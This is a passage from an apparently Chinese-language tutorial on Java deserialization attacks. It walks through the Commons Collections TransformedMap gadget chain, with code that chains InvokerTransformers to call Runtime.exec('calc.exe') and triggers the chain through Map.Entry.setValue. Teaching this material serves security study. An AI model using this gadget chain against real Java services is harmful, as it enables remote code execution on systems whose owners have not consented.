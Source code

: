 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYxQZUaHE0lEujgAl7koFp968ibGjQ4AtpiaRrYwkeC9faEYc0jJh9l38A/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYY5xpIGQIjUibg452GqMjXibpw5J7RR74yOdIVKBNc4yaibf6yRPnjcWttw/640?wx_fmt=png "")  
  
在TransformedMap的领域内，我们的目标是操纵valueTransformer，将其设定为一个ChainTransformer对象。为了实现这一点，我们需要精准地定位到这个值的赋值点。  
```
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

// 赋值点，将chainTransformer设置为valueTransformer
valueTransformer = chainedTransformer;
```  
  
在这个过程中，我们首先构建了一个Transformer数组，每个元素都是一个特定的变换步骤。然后，我们创建了一个ChainedTransformer对象，将这个数组作为参数传递给它。最终，我们找到了关键的赋值点，将ChainedTransformer对象赋值给valueTransformer，从而控制了整个变换链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYY1oAwHG1N3icbPKKxGGQU2c9aH2DmvM4DhDmfrv3FAc66Oia2Mp3HnB6g/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYY4aj42REPxibBZ80Xqbwia60lpJceaoRTavOrxHmeFrDx022waUNgaTDg/640?wx_fmt=png "")  
  
我们踏着节奏，一步步构建起我们的链环：  
```
// 初始的Map容器，承载着我们的秘密
Map mp = new HashMap();
mp.put("ok", "notok"); // 赋值的微妙之处，为后续的setValue铺路

// 装饰Map，赋予它变换的能力
Map dd = TransformedMap.decorate(mp, null, chainedTransformer);

// 通过Entry的视角，深入Map的内部
Map.Entry entry = (Entry) dd.entrySet().iterator().next();

// 改变值，让目标显现
entry.setValue("ok");

// 绕过黑名单，反射链的巧妙运用
// 利用序列化的力量，达到最终目的
```  
  
在这个过程中，我们首先创建了一个HashMap，然后巧妙地放入了一个键值对。接着，我们使用TransformedMap.decorate静态方法，将我们的mp和chainedTransformer结合起来，赋予了Map新的变换能力。  
  
随后，我们通过迭代器深入Map的内部，获取了一个Entry对象。通过改变这个Entry的值，我们悄然接近了我们的目标。  
  
最后，我们绕过了黑名单的限制，利用反射链的巧妙运用，并通过序列化的力量，实现了我们的目的。每一步都充满了节奏感，引领着读者深入代码的世界。  
## 金丹期--反序列化篇  
  